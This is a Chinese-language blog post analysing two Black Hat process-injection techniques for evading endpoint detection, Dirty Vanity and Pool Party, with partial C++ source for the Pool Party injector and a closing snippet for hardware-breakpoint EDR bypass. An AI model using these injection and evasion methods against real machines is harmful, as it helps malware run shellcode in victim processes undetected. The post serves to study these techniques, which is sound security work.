

Dirty Vanity And Pool Party 的分析和思考

- - -

本文是用来学习 在 Black Hat 上出现过的两种绕过 EDR 两种手法；之所以把这两种手法放在一起讨论是因为其思路有异曲同工；都是与 Window 的进程的相关的利用技术来进行另类绕过。而且两个文章提有铺垫传统进程注入的手段其分三步：第一步 为 shellcode 分配空间。第二步将 shellcode 写入到创建的空间中；其中用到的函数比如有 WriteProcessMemory，NtMapViewOfSection，GlobalAddAtom 等。第三步使用漏洞执行原语执行第二步分配的 shellcode。其实也就是分配写入执行；下述介绍的两种技术主要是通过代码的角度来理解其实现的过程最后测试成功注入。

## **Dirty Vanity**

首先来说一下 blackhat2022 中提出的一种 bypass EDR 的方法 利用了 Windows 一种鲜为人知的机制 process forking。  
Dirty Vanity 使用 Windows Fork 进程规避 EDR 的进程注入：首先也是通过先写入将 shellcode 分配并且写入目标进程（通过 VirtualAllocEx 和 WriteProcessMemory 或者 NtCreateSection 和 NtMapViewOfSection 等）；其次就是 Fork 和执行 在目标进程上执行远程 Fork；并将进程的起始地址设置为 shellcode 通过使用如下函数。

```plain
RtlCreateProcessReflection (PVOID StartRoutine = 指向克隆的 shellcode)
NtCreateProcess[Ex] + 克隆的 shellcode 执行原语
```

从下图的流程可以看出首先是 Injector.exe 通过 VirtualAllocEx 在 Explorer.exe 申请并且分配一段内存空间；然后在通过 WriteProcessMemory 写人其中。但随便就使用了 Dirty Vanity 的核心部分；通过 Fork 将 Explorer.exe 创造一个副本；并且 Fork 的结果了包含 Explorer.exe 原地址空间的副本包括初始写入步骤的 shellcode。然后将 Fork 进程的起始地址设置为 shellcode 最后完成指行。  
而其主要是通过 RtlCreateProcessReflection 函数指向克隆的 shellcode；然后再将进程起始地址设置为克隆的 shellcode；最后 Fork 的 Explorer.exe 进程将会包含 shellcode 并执行它完成进程注入。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204221627-fc63fd0e-c367-1.png)

接下来看一下代码的具体实现逻辑；首先是拿到准备注入进程的句柄；这里要注意的是使用函数 OpenProcess 打开句柄的权限设置要设置 PROCESS\_VM\_OPERATION PROCESS\_VM\_WRITE PROCESS\_CREATE\_THREAD 这三个权限访问目标进程句柄才行。  
OpenProcess(PROCESS\_VM\_OPERATION | PROCESS\_VM\_WRITE | PROCESS\_CREATE\_THREAD | PROCESS\_DUP\_HANDLE, TRUE, victimPid);

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204221635-0113be84-c368-1.png)  
然后通过 VirtualAllocEx 函数为 shellcode 申请内存空间；在通过 WriteProcessMemory 函数将其写入到分配的内存空间；

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204221644-060f2d56-c368-1.png)  
最后通过先是获取 RtlCreateProcessReflection 函数指针；然后创建目标进程的 Reflection 镜像并将结果存储在 info 中。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204221652-0b210a58-c368-1.png)

最后执行的效果如下图所示成功的 fork 了一个 explore.exe 并且在其下方进程树有了我们的 cmd.exe

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204221705-12f62ff6-c368-1.png)

## **Pool Party**

blackhat2023 中提出了 Pool party 其采用 windows 线程池的新进程注入技术；这里就直接阐述其核心原理首先我们要知道 Windows 用户模式下的线程池：所有 Windows 进程都有一个线程池而且线程池由结构体表示，这样就可以方便执行内存函数。线程池由三个不同的工作队列组成，每个队列专用于不同类型的工作项下图就是定义的攻击面；下图可以看见 TP\_POOL Task Queue 和 Timer Queue 都是在用户态下的；而 I/O 完成队列则是深处在内核态下这也为后续的利用埋下伏笔。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204221722-1d041cce-c368-1.png)

要利用完成如下步骤：分别是攻击 Work Factories-TP\_WORK；File obiects (TP\_IO)；ALPC port objects (TP\_ALPC)；Job obiects (TP\_JOB)；Waitable objects-(TP\_WAIT)；TP\_TIMER。  
例如上述 TP\_WORK 是插入到 TP\_POOL 的任务队列中去；队列通知到 I/O 完成队列也就是 TP\_IO 中去；  
任何排队到 l/O 完成队列的 TP\_DIRECTnotification 都会被执行；可以通过对象操作完成来排队；可以通过 NtSetloCompletion 系统调用直接排队。而 TP\_TIMER（TP\_POOL Timer Queue）是设置队列定时器过期。  
更多细节还是从提供的代码来观看；打开 Pool Party 会发现其文件下总共有八个主要逻辑文件分别是 HandleHijacker.cpp，PoolParty.cpp，ThreadPool.cpp，main.cpp，Misc.cpp，Native.cpp，WinApi.cpp，WorkerFactory.cpp  
首先来看一下 WorkerFactory.cpp 文件  
这段代码包含两个函数：w\_NtQueryInformationWorkerFactory 和 w\_NtSetInformationWorkerFactory，它们是对 NtQueryInformationWorkerFactory 和 NtSetInformationWorkerFactory 函数的封装。其参数：hWorkerFactory：对工作工厂的句柄。  
WorkerFactoryInformationClass：指定要查询的信息类型的信息类。WorkerFactoryInformation：接收所请求信息的缓冲区的指针。WorkerFactoryInformationLength：由 WorkerFactoryInformation 指向的缓冲区的大小。ReturnLength：指向接收写入到缓冲区的信息大小的变量的指针。  
函数 w\_NtSetInformationWorkerFactory 参数：hWorkerFactory：对工作工厂的句柄。WorkerFactoryInformationClass：指定要设置的信息类型的信息类。WorkerFactoryInformation：指向包含要设置的信息的缓冲区的指针。WorkerFactoryInformationLength：由 WorkerFactoryInformation 指向的缓冲区的大小。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204221733-23749070-c368-1.png)  
WinApi.cpp 文件中这其中有两个关键的函数 w\_WriteFile 函数向文件写入数据如果操作是异步的（使用 overlapped 参数），并且返回 ERROR\_IO\_PENDING，则不会引发异常。  
w\_CreateJobObject 函数创建或打开作业对象，用于作业对象句柄的自动关闭。  
剩下就是通过 w\_SetInformationJobObject 函数设置作业对象的信息；w\_AssignProcessToJobObject 函数将进程分配给作业对象。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204221749-2d059efe-c368-1.png)  
在往下看一下 Native.cpp 文件此文件代码包含了一系列与 Windows Native API 相关的函数；比如代码中的 w\_ZwAssociateWaitCompletionPacket 函数其关联等待完成包与 I/O 完成端口，用于异步 I/O 操作的完成通知。再到 w\_NtAlpcCreatePort 函数用于创建 ALPC 端口，用于本地过程调用。w\_ZwSetIoCompletion 函数为设置 I/O 完成状态，用于 I/O 操作完成通知。w\_NtSetTimer2 函数设置定时器。

```plain
#include "Native.hpp"

void w_ZwAssociateWaitCompletionPacket(
    HANDLE WaitCopmletionPacketHandle,
    HANDLE IoCompletionHandle,
    HANDLE TargetObjectHandle,
    PVOID KeyContext,
    PVOID ApcContext,
    NTSTATUS IoStatus,
    ULONG_PTR IoStatusInformation,
    PBOOLEAN AlreadySignaled
) 
{
    NT_SUCCESS_OR_RAISE(
        "ZwAssociateWaitCompletionPacket",
        ZwAssociateWaitCompletionPacket(
            WaitCopmletionPacketHandle,
            IoCompletionHandle,
            TargetObjectHandle,
            KeyContext,
            ApcContext,
            IoStatus,
            IoStatusInformation,
            AlreadySignaled)
    );
}

void w_ZwSetInformationFile(
    HANDLE hFile,
    PIO_STATUS_BLOCK IoStatusBlock,
    PVOID FileInformation,
    ULONG Length,
    ULONG FileInformationClass
)
{
    NT_SUCCESS_OR_RAISE(
        "ZwSetInformationFile",
        ZwSetInformationFile(
            hFile,
            IoStatusBlock,
            FileInformation,
            Length,
            FileInformationClass)
    );
}

HANDLE w_NtAlpcCreatePort(POBJECT_ATTRIBUTES ObjectAttributes, PALPC_PORT_ATTRIBUTES PortAttributes) {
    HANDLE hAlpc;
    NT_SUCCESS_OR_RAISE(
        "NtAlpcCreatePort",
        NtAlpcCreatePort(&hAlpc, ObjectAttributes, PortAttributes)
    );
    return hAlpc;
}

void w_NtAlpcSetInformation(HANDLE hAlpc, ULONG PortInformationClass, PVOID PortInformation, ULONG Length) 
{
    NT_SUCCESS_OR_RAISE(
        "NtAlpcSetInformation", 
         NtAlpcSetInformation(hAlpc, PortInformationClass, PortInformation, Length)
    );
}


HANDLE w_NtAlpcConnectPort(
    PUNICODE_STRING PortName,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PALPC_PORT_ATTRIBUTES PortAttributes,
    DWORD ConnectionFlags,
    PSID RequiredServerSid,
    PPORT_MESSAGE ConnectionMessage,
    PSIZE_T ConnectMessageSize,
    PALPC_MESSAGE_ATTRIBUTES OutMessageAttributes,
    PALPC_MESSAGE_ATTRIBUTES InMessageAttributes,
    PLARGE_INTEGER Timeout
) 
{
    HANDLE hAlpc;
    NT_SUCCESS_OR_RAISE(
        "NtAlpcConnectPort",
        NtAlpcConnectPort(
            &hAlpc,
            PortName,
            ObjectAttributes,
            PortAttributes,
            ConnectionFlags,
            RequiredServerSid,
            ConnectionMessage,
            ConnectMessageSize,
            OutMessageAttributes,
            InMessageAttributes,
            Timeout)
    );

    return hAlpc;
}

BOOLEAN w_RtlAdjustPrivilege(ULONG Privilege, BOOLEAN Enable, BOOLEAN CurrentThread)
{
    BOOLEAN Enabled = NULL;
    NT_SUCCESS_OR_RAISE(
        "RtlAdjustPrivilege", 
        RtlAdjustPrivilege(
            Privilege, 
            Enable,
            CurrentThread,
            &Enabled)
    );
    return Enabled;
}

void w_ZwSetIoCompletion(HANDLE IoCompletionHandle, PVOID KeyContext, PVOID ApcContext, NTSTATUS IoStatus, ULONG_PTR IoStatusInformation)
{
    NT_SUCCESS_OR_RAISE(
        "ZwSetIoCompletion",
        ZwSetIoCompletion(
            IoCompletionHandle,
            KeyContext,
            ApcContext,
            IoStatus,
            IoStatusInformation)
    );
}

void w_NtSetTimer2(HANDLE TimerHandle, PLARGE_INTEGER DueTime, PLARGE_INTEGER Period, PT2_SET_PARAMETERS Parameters) 
{
    NT_SUCCESS_OR_RAISE(
        "NtSetTimer2",
        NtSetTimer2(
            TimerHandle,
            DueTime,
            Period,
            Parameters)
    );

}
```

Misc.cpp 中主要实现了可以用于捕获和处理 Windows API 调用中的错误信息。其中，w\_FormatMessageA 函数封装了 FormatMessageA 的调用，提供了更方便的接口来获取错误信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204221828-4453835a-c368-1.png)  
ThreadPool.cpp 中其文件中主要定义了一些用于创建线程池相关对象的函数；像 w\_CreateThreadpoolWork 函数创建线程池工作项，并返回 PFULL\_TP\_WORK 类型的指针。通过 w\_TpAllocAlpcCompletion 函数分配 ALPC 完成例程并返回 PFULL\_TP\_ALPC 类型的指针。通过 TpAllocJobNotification 分配作业通知等

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204221838-4a2b4ef2-c368-1.png)

HandleHijacker.cpp 中主要就是有一个 HijackProcessHandle 函数此函数用于劫持指定类型的进程句柄。  
并且通过调用 NtQueryInformationProcess 获取目标进程的句柄信息，然后遍历每个句柄，复制满足条件的对象句柄。还使用了 HijackProcessHandle 函数来劫持工作工厂（TpWorkerFactory）类型的句柄；I/O 完成（IoCompletion）类型的句柄；还有 IR 定时器（IRTimer）类型的句柄。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204221900-577e45e6-c368-1.png)  
PoolParty.cpp 负责将 shellcode 注入到目标进程；它获取目标进程句柄；劫持特定类型句柄（工作工厂、I/O 完成、定时器等）的方法，分配目标进程内存，将 Shellcode 写入已分配的内存，最后执行 Shellcode。、  
通过 RemoteTpWorkInsertion、RemoteTpWaitInsertion、RemoteTpIoInsertion、RemoteTpAlpcInsertion、RemoteTpJobInsertion、RemoteTpDirectInsertion 等这些类继承自 PoolParty  
都覆盖了 HijackHandles 方法以劫持适当的句柄，并覆盖了 SetupExecution 方法以执行特定注入。  
还使用了 Boost Logging 记录有关注入过程各个步骤的信息。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204221911-5e0623fc-c368-1.png)  
最后到 main 函数中也就是 main.cpp 这里也介绍了利用步骤操作了如下过程  
(WorkerFactoryStartRoutineOverwrite) 覆盖目标进程工厂的启动例程  
(RemoteTpWorkInsertion) 将 TP\_WORK 工作项插入目标进程的线程池  
(RemoteTpWaitInsertion) 将 TP\_WAIT 工作项插入目标进程的线程池  
(RemoteTpIoInsertion) 将 TP\_IO 工作项插入目标进程的线程池  
(RemoteTpAlpcInsertion) 将 TP\_ALPC 工作项插入目标进程的线程池  
(RemoteTpJobInsertion) 将 TP\_JOB 工作项插入目标进程的线程池  
(RemoteTpDirectInsertion) 将 TP\_DIRECT 工作项插入目标进程的线程池  
(RemoteTpTimerInsertion) 将 TP\_TIMER 工作项插入目标进程的线程池

```plain
int main(int argc, char** argv)
{
    InitLogging();

    try 
    {
        const auto CmdArgs = ParseArgs(argc, argv);

        if (CmdArgs.bDebugPrivilege)
        {
            w_RtlAdjustPrivilege(SeDebugPrivilege, TRUE, FALSE);
            BOOST_LOG_TRIVIAL(info) << "Retrieved SeDebugPrivilege successfully";
        }

        const auto Injector = PoolPartyFactory(CmdArgs.VariantId, CmdArgs.TargetPid);
        Injector->Inject();
    }
    catch (const std::exception& ex) 
    {
        BOOST_LOG_TRIVIAL(error) << ex.what();
        return 0;
    }

    return 1;
}
```

最后调用 InitLogging() 初始化日志。解析命令行参数并检查调试权限创建 PoolParty 派生类的实例，并调用 Inject 方法执行注入。最后执行效果如下成功将 shellcode 注入到 explore.exe 进程中去完成利用。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204221947-73407b78-c368-1.png)

## 思考

上述两种手法一种是通过 windows 进程的 fork 机制一种是通过进程的进程池的结构特性来完成的注入；那是否能将这两种手法相互结合；也就是将进程池的目标换成 windows 进程 fork 的对象而且还能通过父进程的特殊性对注入的子进程进行有效的规避。  
但是上述代码中有一些关键函数的直接调用在有的 edr 中可能会被挂钩检测到，那么是否可以通过间接调用的方式将其代码进行组合起来比如通过如下的代码进行一些代码的替换从而规避检测；

```plain
DWORD SetThreadContextThread(LPVOID param) {
    NtSetContextThread(NULL, NULL);
    return 0;
}

SetUnhandledExceptionFilter(BreakpointHandler);
HANDLE new_thread = CreateThread(NULL, NULL, SetThreadContextThread, NULL, CREATE_SUSPENDED, NULL);
SetSyscallBreakpoints((LPVOID)NtSetContextThread, new_thread);
ResumeThread(new_thread);
```

甚至还可以将上述部分代码中的 api 更改为间接调用的方式去进行修补还可以修改寄存器的值等比如设置硬件断点进行 bypassEDR  
可参考[https://malwaretech.com/2023/12/silly-edr-bypasses-and-where-to-find-them.html](https://malwaretech.com/2023/12/silly-edr-bypasses-and-where-to-find-them.html)  
通过不同的方式进行结合说不定会有其他更多的玩法。

[](https://xzfile.aliyuncs.com/media/upload/picture/20240204222048-97aea46c-c368-1.png)
